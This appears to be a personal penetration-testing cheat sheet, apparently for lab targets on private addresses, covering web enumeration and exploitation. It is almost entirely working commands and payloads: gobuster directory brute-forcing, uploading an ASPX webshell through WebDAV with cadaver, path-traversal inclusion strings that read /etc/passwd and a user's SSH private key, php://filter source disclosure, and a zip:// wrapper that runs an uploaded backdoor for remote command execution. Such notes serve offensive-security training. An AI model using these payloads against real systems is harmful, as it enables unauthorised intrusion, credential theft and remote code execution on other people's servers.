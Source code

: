 <aside>
💡 Try to do `cd ..` (in kiero it let do traversal)

</aside>

```jsx
exiftool -a -G1 FUNCTION-TEMPLATE.pdf
```

## Web

```jsx
curl -L http://192.168.248.65:9998/
```

```jsx
gobuster dir -u http://192.168.167.127:45332/ -w /usr/share/wordlists/dirb/common.txt -t 99 2>/dev/null
```

```jsx
gobuster dir -u http://192.168.121.122 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,md,php,asp,aspx -t 99 2>/dev/null
gobuster dir -u https://192.168.249.140/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,md,php,asp,aspx -t 99 2>/dev/null
```


Abuse webdav with cadavr:

```jsx
cadaver http://192.168.157.122
put /usr/share/webshells/aspx/cmdasp.aspx
```

### LFI

[File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```jsx
http://240.0.0.1:8000/backend/?view=../../../../../../../../etc/passwd
<inject the php webshell to /var!!!>
http://240.0.0.1:8000/backend/?view=../../../../../../../../var/cmd.php&cmd=whoami
```

```jsx
?page=../../../../../../../Windows/System32/drivers/etc/hosts
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers/Viewer/.ssh/id_rsa
```

```jsx
http://192.168.223.229/index.php?file=home~~.php~~ # (if no need for .php -> only can include php files!)
http://192.168.223.229/index.php?file=php://filter/convert.base64-encode/resource=upload.php
http://192.168.223.229/index.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

# zip wrapper for RCE
http://192.168.223.229/index.php?file=zip://uploads/upload_1719432517.zip%23simple-backdoor.php&cmd=whoami
http://192.168.223.229/index.php?file=zip://uploads/upload_1719432517.zip%23simple-backdoor&cmd=whoami
```
